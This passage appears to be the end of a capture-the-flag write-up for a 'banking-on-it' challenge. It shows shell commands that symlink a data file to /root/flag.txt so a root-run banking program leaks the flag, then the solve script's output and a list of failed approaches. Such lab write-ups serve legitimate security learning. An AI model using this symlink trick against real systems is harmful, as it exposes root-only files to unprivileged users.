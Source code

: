 Then login to the system, extract pexpect.tar, link recordInfo.txt to /root/flag.txt, and create clerk.dat and manager.dat.

```
gus@banking-on-it-eeb908d4ed2c2144-5f84f76f97-b6vn5:~$ tar -xf pexpect.tar 
gus@banking-on-it-eeb908d4ed2c2144-5f84f76f97-b6vn5:~$ ln -s /root/flag.txt recordInfo.txt
gus@banking-on-it-eeb908d4ed2c2144-5f84f76f97-b6vn5:~$ touch clerk.dat manager.dat
```

```
gus@banking-on-it-eeb908d4ed2c2144-5f84f76f97-b6vn5:~$ ls -l
total 956
-rw-rw-r-- 1 gus gus      0 Mar 14 17:33 clerk.dat
-rw-r--r-- 1 gus gus 524416 Mar 14 17:32 customer.dat
-rw-rw-r-- 1 gus gus      0 Mar 14 17:33 manager.dat
drwxr-xr-x 6 gus gus   4096 Mar 14 16:49 pexpect
-rw-r--r-- 1 gus gus 440320 Mar 14 17:32 pexpect.tar
lrwxrwxrwx 1 gus gus     14 Mar 14 17:33 recordInfo.txt -> /root/flag.txt
-rwxr-xr-x 1 gus gus    809 Mar 14 17:36 solve.py
```

Run the script to find the flag:

```
gus@banking-on-it-eeb908d4ed2c2144-5f84f76f97-b6vn5:~$ ./solve.py 
...
b'flag{0fc: Account has log in at Sun Mar 14 17:38:37 2021\r\n'
b'flag{0fd: Account has log in at Sun Mar 14 17:38:37 2021\r\n'
b'flag{0fe: Account has log in at Sun Mar 14 17:38:38 2021\r\n'
b'flag{0ff: Account has log in at Sun Mar 14 17:38:38 2021\r\n'
b'flag{100: Account has log in at Sun Mar 14 17:38:39 2021\r\n'
b'flag{101c109fc3b54ca2dc3167fe727deb8c}\r\n'
b'flag{102: Account has log in at Sun Mar 14 17:38:39 2021\r\n'
b'flag{103: Account has log in at Sun Mar 14 17:38:40 2021\r\n'
b'flag{104: Account has log in at Sun Mar 14 17:38:40 2021\r\n'
...
```

The flag is:

```
flag{101c109fc3b54ca2dc3167fe727deb8c}
```

## Things That Didn't Work

I tried a bunch of different things locally that did not work on the remote system once sudo was in the mix:

* gdb or ptrace: locally I was able to see what the first 8 chars in recordInfo.txt by setting a breakpoint in gdb, but the remote system didn't have gdb or ptrace. And since the command runs as root there, I couldn't use gdb or ptrace as a normal user anyway (permission denied).
* scpying pwntools to remote system: my first version of solve.py used pwntools, which worked great locally. But pwntools pulls in a bunch of dependencies and turned into >150mb of packages once installed. When I tried to scp that tarball to the remote system to get the dependencies I needed, the container would restart either in the middle of the scp command, or when extracting the tarball. Our best guess was that there was a space constraint set on the container so it restarts if we cross a certain threshold. Pwntools was ultimately too big to copy to the system.
* pwntools over ssh: I tried running my pwntools script locally but invoking an ssh command into the remote system. This would have been alright, if it weren't for needing sudo. There's some behavior here that I don't fully understand, but bottom line, I couldn't find a way to run my pwntools script locally in a way that could ssh to the remote system, sudo /opt/banking/bank, and capture the output correctly.
* I tried using a series of quick bash and perl scripts using timeout command to escape from that infinite loop where it keeps calling fseek, but the timeout command was failing to kill each bank process, because of course that process was running as root. We needed some way to send Ctrl-C as input and not just a kill signal.
